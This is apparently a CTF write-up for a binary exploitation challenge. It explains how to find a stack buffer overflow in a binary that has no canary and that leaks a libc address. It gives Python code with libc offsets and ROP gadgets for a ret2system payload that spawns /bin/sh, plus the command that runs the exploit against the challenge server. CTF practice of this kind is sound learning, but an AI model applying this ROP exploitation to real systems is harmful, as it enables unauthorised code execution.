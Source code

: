 # challenge Name: Prog

![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security mitigation
```
 pwn checkseck poj 
```

![Poj_challenge](../images/checksec_poj.png)

## No cannary found. 

 note that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

![Poj_challenge](../images/poj_exec1.png)

The prog leak write address and ask user to input data

# reverse engineering the program

after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

# main function

![main_function](../images/main_func_poj.png)


# vuln_function

![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:

    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
# offset = 72
![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gadgets  on the libc 
```python    
 # libc.so.6 write = 0xff4d0

libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 

libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 

libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"

pop_rdi_offset =  0x0000000000028215 # found with ropper 

ret_offset =  0x00000000000f35d8 # found with ropper
```


# Now calculate the PIEBASE and craft the payload
```
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit: ![exploit](./poj_exploi.py)

```bash
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003

```
![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
